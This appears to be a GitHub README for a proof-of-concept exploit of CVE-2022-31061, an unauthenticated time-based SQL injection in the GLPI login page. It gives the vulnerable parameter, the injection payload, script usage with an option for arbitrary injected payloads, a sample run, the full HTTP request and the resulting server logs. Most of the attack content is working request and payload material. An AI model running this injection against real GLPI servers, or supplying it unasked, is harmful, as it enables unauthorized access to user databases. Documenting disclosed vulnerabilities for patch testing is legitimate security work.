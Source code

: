 # CVE-2022-31061
PoC for GLPI CVE-2022-31061

A Proof of Concept for GLPI >= 9.3.0 and < 10.0.2 - Unauthenticated SQL injection on login page

## Legal disclaimer : 
Use of this script for attacking à target without mutual consent is illegal. 
It's is the end user responsibility to obey all applicables laws for his location
Developers assume no lisibility and are not responsible for any misuse or domage caused by this program

## Context :
Public disclosure : https://github.com/glpi-project/glpi/security/advisories/GHSA-w2gc-v2gm-q7wq on 2022-06-28

Patch : https://github.com/glpi-project/glpi/releases/tag/10.0.2 on 2022-06-28

Commit : https://github.com/glpi-project/glpi/commit/21ae07d00d0b3230f6235386e98388cfc5bb0514

## Vulnerability : 
- page : POST /front/login.php
- parameter : &auth=ldap-1%27+UNION+SELECT+SLEEP%285%29+%23+
- injection : Blind Time based injection

##Usage 
```
Usage: CVE-2022-31061.py -t https://example.com [-v] [-c cmd]

Options:
  -h, --help            show this help message and exit
  -t TARGET, --target=TARGET
                        GLPI Website to audit
  -v, --verbose         Display verbose output
  -c CMD, --cmd=CMD     payload to inject. Time based Bind Injection. Context
                        : ' SELECT `id` FROM `glpi_users` WHERE `name` =
                        'fzrfdse' AND `authtype` = '3' AND `auths_id` = '1'
                        [payload] # '
  -u USERAGENT, --user-agent=USERAGENT
                        user-agent to use
  -p PROXY, --proxy=PROXY
                        proxy to use
```

## Example :
Command :
```
$ python CVE-2022-31061.py -t http://target
[ 2022-08-07 14:47:35.911449 ] Begin send request for  UNION SELECT SLEEP(5)
[ 2022-08-07 14:47:54.533460 ] End send request for  UNION SELECT SLEEP(5)  Duration :  18.619755
SUCCESS : target is vulnerable
```

Request :
```
POST /front/login.php HTTP/1.1
Host: target
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Referer: http://target/index.php
Cookie: glpi_3f946f74140a3178722cb675d5bf6b47=921opoti2tp4uk3g35sgor5had
Content-Length: 243
Content-Type: application/x-www-form-urlencoded

noAuto=0&redirect=&_glpi_csrf_token=b029a0270351f75ba69cced0385bd77deb548ec0db25eec2c511ee9064ec6bd6&fielda62f008c7f1837=FWVJDCDC&fieldb62f008c7f1838=U6XGS34JKQPC1LD6&auth=ldap-1%27+UNION+SELECT+SLEEP%285%29+%23+&fieldc62f008c7f1839=on&submit=
```

MySQL Logs :
```
SELECT `id` FROM `glpi_users` WHERE `name` = 'FWVJDCDC' AND `authtype` = '3' AND `auths_id` = '1' UNION SELECT SLEEP(5) # '
```

Nginx logs :
```
tester - - [07/Aug/2022:20:47:35 +0200] "GET /index.php HTTP/1.1" 200 3173 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0"
tester - - [07/Aug/2022:20:47:54 +0200] "POST /front/login.php HTTP/1.1" 200 9232 "http://target/index.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0"
```
